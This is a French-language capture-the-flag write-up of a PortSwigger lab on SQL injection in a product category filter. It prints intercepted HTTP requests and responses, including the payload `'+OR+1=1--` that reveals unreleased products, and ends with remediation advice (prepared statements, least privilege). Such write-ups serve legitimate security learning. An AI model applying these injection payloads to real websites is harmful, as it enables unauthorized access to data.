










# Lab: Vulnérabilité de type « injection SQL » dans la clause WHERE permettant l'extraction de données cachées

> **CTF :** PORTSWIGGER  

> **Catégorie :** Sécurité Web  

> **Difficulté :** APPRENTICE  

> **Points :** ✅  

> **Date :** 23/07/2026  

> **Statut :** ✅ Résolu  


---

## 📌 Description du Challenge

> *nous voulons faire face à un challenge d'injection SQL permettant l'extraction de données cachées*  


---

## 🎯 Objectif

Nous devons lancer une attaque par injection SQL qui force l'application à afficher un ou plusieurs produits non encore commercialisés.

---

## 🔍 Reconnaissance

le site nous permet de filtrer les produits par catégorie et notre but est d'afficher un ou plusieurs produits non encore commercialisés

**Observations :**
- filtre de produits par catégorie 


**Outils utilisés :**
- Burp Suite 

---

## 🧠 Hypothèse

- Dans notre cas, nous savons déjà que nous devons exploiter une vulnérabilité d'injection SQL.  
- d'abord, nous allons lancer BurpSuite et activer le Proxy pour visualiser les requêtes envoyées et reçues
  

---

## ⚔️ Exploitation

### Étape 1 — [ choisir la catégorie Gift ]
- commencons par faire un clic sur une catégorie (Gift)

**Requête :**
```http
GET /filter?category=Gifts HTTP/2
Host: 0a5b00c70490445382188805001400f4.web-security-academy.net
Cookie: session=ftQIEh7VbXNjGRAOyAc2zGyn2M2Z1jr1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a5b00c70490445382188805001400f4.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```  


**Réponse :**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4922

```
  
-  On constate que dans la requête, nous avons `filter?category`. Le caractère `?` est une entrée utilisateur (input) qui est envoyée directement au serveur. 
- On constate que trois images s'affichent quand on choisit la catégorie `Gift` donc ces trois images font partie de cette catégorie.
---  

### Étape 2 — [Ajouter le caractère " ' " pour voir si la base de données est sujete aux injections SQL ]

- Dans la requête, ajouter le caractère " ' " à côté de la catégorie Gift ou toute autre catégorie que vous avez choisie.
- click sur `Forward`  pour envoyer la requête.
---  


**Requête :**  
```http  
GET /filter?category=Gifts' HTTP/1.1
Host: 0abe00cd0434c06980867142008400a0.web-security-academy.net
Cookie: session=nthBIgTpojIEP6pADeYcjdkOy0J7ZrYe
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0abe00cd0434c06980867142008400a0.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```  


**Réponse :**
```http
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2492

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
```  

-nous  recevons une erreur de serveur
---
### Étape 3 — [Ajouter le caractère " '-- " pour voir si la base de données est sujete aux injections SQL]  
- Dans la requête, ajouter le caractère " '-- " à côté de la catégorie Gift ou toute autre catégorie que vous avez choisie.  
- Nous allons ajouter '-- pour  indiquer au serveur de base de données d'ignorer tout ce qui se trouve après ces caractères sur la même ligne.
- click sur `Forward`  pour envoyer la requête que nous avons modifiée

**Payload utilisé :**
```
GET /filter?category=Gifts'-- HTTP/1.1
Host: 0abe00cd0434c06980867142008400a0.web-security-academy.net
Cookie: session=nthBIgTpojIEP6pADeYcjdkOy0J7ZrYe
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0abe00cd0434c06980867142008400a0.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```


**Résultat :**
```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5316

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</title>
    </head>
<!--LAB_HEAD_END-->
```  


---  
### Étape 3 — [Ajouter le caractère " 'OR 1=1-- " Dans la requête]


**Payload utilisé :**  
- Nous allons ajouter `'+OR+1=1--`  à côté de `Gift` pour  modifier la condition de la requête pour qu'elle soit toujours vraie et nous permettre d'afficher tous les articles même ceux qui ne font pas partie de la catégorie `Gift`.

```http
GET /filter?category=Gifts'+OR+1=1-- HTTP/2
Host: 0abe00cd0434c06980867142008400a0.web-security-academy.net
Cookie: session=nthBIgTpojIEP6pADeYcjdkOy0J7ZrYe
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0abe00cd0434c06980867142008400a0.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```  

**Résultat :**  


```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11646

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```  
-  Comme on peut le constater, nous avons résolu le lab vu que nous avons affiché tous les produits, même ceux qui sont hors de la catégorie sélectionnée.  
---
## 🚩 Flag



---

## 🛡️ Remédiation  

- L'application concatène directement le paramètre category dans la requête SQL. Il faut utiliser des requêtes préparées (paramètres liés) pour séparer le code SQL des données utilisateur, et appliquer le principe du moindre privilège sur le compte de base de données. 
---

## 💡 Points Clés à Retenir

1. `'` : ferme la chaîne de caractères ouverte par le code d'origine de la requête.  

2. `OR 1=1` : ajoute une condition logique toujours vraie (1 est toujours égal à 1), rendant l'ensemble de la requête vrai peu importe les identifiants saisis. 

3. `-- (ou #)` : commente le reste de la requête SQL d'origine pour éviter les erreurs de syntaxe (comme la vérification du mot de passe qui suit).

4. Le cœur de la vulnérabilité : transformer une condition en tautologie. Injecter ' OR 1=1-- - dans category change la requête WHERE.   category='Gifts' en une condition toujours vraie → toutes les lignes remontent, pas juste celles filtrées. C'est LE mécanisme à retenir : une injection ne fait pas "planter" la base, elle réécrit la logique de la requête.  

5. Le signal de reconnaissance. Un paramètre qui sert à filtrer (category, search, sort...) est un candidat naturel pour finir dans une clause WHERE. Ce réflexe — deviner où atterrit la donnée avant même de tester — se généralise à presque tous les endpoints que tu croiseras.  

6. Le rôle des commentaires SQL. -- (ou # en MySQL) neutralise le reste de la requête après ton injection — indispensable pour ignorer proprement la quote fermante ou une clause ORDER BY qui suivrait.
---

## 📚 Références

- [PortSwigger — Vulnérabilité de type « injection SQL » dans la clause WHERE permettant l'extraction de données cachées](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)

---

*Rédigé par : Malick Ramzy SOPODOU*
